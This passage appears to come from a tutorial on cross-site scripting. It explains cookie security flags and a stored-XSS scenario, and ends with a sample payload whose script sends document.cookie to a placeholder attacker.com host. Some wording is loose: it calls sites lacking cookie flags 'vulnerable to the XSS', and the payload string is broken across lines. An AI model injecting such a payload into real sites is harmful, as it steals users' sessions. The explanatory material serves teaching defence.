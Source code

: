 ![xssExploitation3](../assets/img/xss/Screenshot%202024-08-04%20at%2011.33.25.png)

If developer does not secure cookie setting like this.

```javascript
Set-Cookie: sessionId=abc123; HttpOnly; Secure; SameSite=Strict
```

That website will be vulnerable to the XSS.

Possible attack scenarios for stored XSS

An attacker injects a malicious script below into a comment field on a website. When a user views the comment, the script executes and sends the user's session cookie to the attacker's server. The attacker then uses the stolen session cookie to impersonate the user and gain unauthorized access to the user's account.

Injectable payload

```javascript
<script>
  document.write('
  <img src="http://attacker.com/steal?cookie=' + document.cookie + '" />
  ');
</script>
```
